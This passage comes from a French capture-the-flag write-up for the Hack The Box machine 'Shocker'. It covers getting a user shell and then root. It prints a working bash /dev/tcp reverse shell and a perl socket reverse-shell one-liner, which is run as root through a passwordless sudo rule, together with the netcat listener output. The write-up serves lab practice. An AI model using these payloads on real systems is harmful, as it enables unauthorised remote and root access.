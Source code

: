 ```bash
  > 
```

### Shell as shelly
```bash
....
  > /bin/bash -i >& /dev/tcp/10.10.14.42/6666 0>&1                     
  > No response
  > 

--------------------------

$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.56] 40886
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

## Privilege Escalation

### Enumeration
On peut executer n'importe quel script perl en tant que root... J'ai donc récupérer un reverse shell en perl et je l'ai executé.
```bash
shelly@Shocker:/tmp$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

### Perl as root
```bash
shelly@Shocker:/tmp$ cat root.pl 
use Socket;$i="10.10.14.42";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};
shelly@Shocker:/tmp$ sudo /usr/bin/perl root.pl

------------------------------------------------------------

$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.56] 59474
## whoami
root
## python3 -c "import pty;pty.spawn('/bin/bash')"
root@Shocker:/tmp# export TERM=xterm
export TERM=xterm
root@Shocker:/tmp# ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                                                                                   
┌──(kali㉿kali)-[~/htb/shocker/shocker]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1337

root@Shocker:/tmp# 
root@Shocker:/tmp# whoami
```